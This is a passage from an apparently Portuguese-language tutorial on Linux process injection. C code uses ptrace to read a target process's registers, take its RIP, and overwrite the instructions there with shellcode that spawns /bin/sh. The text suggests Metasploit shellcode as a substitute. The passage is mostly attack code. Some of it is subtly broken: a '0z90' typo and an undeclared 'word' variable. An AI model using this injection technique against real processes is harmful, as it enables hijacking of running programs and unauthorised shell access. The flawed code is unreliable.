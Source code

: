 ```c
// Obtém os registradores do processo
struct user_regs_struct regs; // Struct que irá armazenar os registradores
if (ptrace(PTRACE_GETREGS, procID, NULL, &regs) == -1) { // Usa PTRACE_GETREGS com os args procID, NULL, &regs para obter os registradores do processo
    perror("Can't get target regs");
    goto detach;

}
```

Agora, já temos todos os registradores, mas precisamos obter o RIP, e é mais fácil do que obter os registradores:

```c
unsigned long address = regs.rip; // Apenas obtém o rip da struct regs
printf("Target RIP: 0x%llx\n", (unsigned long long)address); // Loga o RIP
```

## Sobreescrevendo o RIP

Agora, já podemos sobreescrever o RIP para inserir nosso shellcode malicioso (neste caso, apenas abre o /bin/sh, mas você pode usar um shellcode do metasploit por exemplo):

```c
size_t wordSize = sizeof(unsigned long); // Usa sizeof porque algumas arquiteturas de CPU são diferentes de 8
size_t nWords = (shellcodeLen + wordSize - 1) / wordSize; // Calcula a quantidade de palavras que precisamos escrever (arredonda para cima)
for (size_t i = 0; i < nWords; i++) { // Loop para cada palavra
    unsigned long data = 0; // Palavra atual
    size_t base = i * wordSize; // Base é o índice inicial da palavra atual

    // For loop que escreve a palavra byte-a-byte
    for (size_t ii = 0; ii < wordSize; ii++) {
        size_t idx = base + ii; // Índice atual
        unsigned char byte = (idx < shellcodeLen) ? shellcode[idx] : 0z90; // Se o índice for menor que o tamanho do shellcode, obtém o byte do shellcode, senão, obtém 0x90
        word |= ((unsigned long)byte << (8 * ii)); // Adiciona o byte à palavra (shiftando para a posição correta)
    
    }

    /*
    POKETEXT escreve uma palavra no endereço do processo.
      No nosso caso, usamos para escrever nossa palavra em address + base (rip + offset atual)
    */
   if (ptrace(PTRACE_POKETEXT, procID, (void*)(address + base), (void*)word) == -1) {
        perror("Some error occurred in POKETEXT");
        goto detach;

    }

    printf("Wrote 0x%lx --> 0x%llx\n", word, (unsigned long long)(address + base)); // Log

}
```
